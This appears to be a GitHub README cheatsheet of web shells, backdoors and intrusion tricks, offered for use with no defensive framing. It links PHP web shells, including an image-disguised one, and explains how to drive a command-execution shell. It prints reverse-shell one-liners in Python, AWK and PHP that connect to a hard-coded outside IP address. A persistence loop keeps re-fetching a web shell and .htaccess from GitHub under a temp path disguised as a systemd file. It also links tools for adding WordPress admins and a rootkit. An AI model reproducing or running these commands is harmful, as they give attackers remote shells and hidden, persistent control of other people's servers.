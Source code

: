 # Cheatsheet Shells & Payloads & Other By [@CallMeRep](https://t.me//CallMeRep)

## Summary
* [BackConnect Bypass](#trick-backconnect-bypass)
* [Tools](#tools)
* [ Example List Vulnerability ]
   * [AWS TAKEOVER S3](https://github.com/t101804/repshare/blob/main/aws_vuln_with_region.txt)
* [ Default Index CMS ]
   * [Index Joomla](https://github.com/t101804/repshare/blob/main/index_joomla.php)
* [ Shell Backdoor Bypass/Non ]
    * [Alfa Shells](https://github.com/t101804/repshare/blob/main/alfa.php)
    * [Evil Twin Shells](https://github.com/t101804/repshare/blob/main/eviltwin.php)
    * [Gecko Shells](https://github.com/t101804/repshare/blob/main/gk.php)
    * [Gecko JPG Shells](https://github.com/t101804/repshare/blob/main/gkjpg.jpg)
    * [Open Source Shells](https://github.com/t101804/repshare/blob/main/ac.php)
    * [Commander RCE Shell Bypass](https://github.com/t101804/repshare/blob/main/commander.php) 
    ```
    commander.php?command=[executeurcommand] then the response you can access in /output_command.txt
    ```
    * [SSI Shell](https://github.com/t101804/repshare/blob/main/ssial.shtml) 
    * [indoXploit Shell](https://github.com/t101804/repshare/blob/main/idx.php) 
    * [marijuana shell](https://github.com/t101804/repshare/blob/main/m4rijuana.php) 
    * [r57 shells](https://github.com/t101804/repshare/blob/main/r.php)
## Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Trick Defend Shells
### Anti Delete Command without Root Privilages : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ] || ([ -f ac.php ] && ! grep -q '@CallMeRep' ac.php); then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script for that if you want see detail script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```
## Tools
- [reverse-shell-generator](https://www.revshells.com/)
- [mass-grab-config-joomla&wp-vhost-symlink](https://github.com/t101804/repshare/blob/main/mass_vghost_config_grab.py)
- [linux_privilage_check_that_i_use](https://github.com/sleventyeleven/linuxprivchecker)
```
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python linuxprivchecker.py -w -o linuxprivchecker.log
```
- [ Auto Add Admin User To Database Wordpress ](https://github.com/t101804/repshare/blob/main/wp_add_admin.php)
- [ Root Kit - Gain New User With Root Privilages ](https://github.com/bayufedra/rootkit-Ninja)

Credit by [revshell](https://revshells.com) and @CallMeRep and [@haxor1337x](https://github.com/haxor1337x)
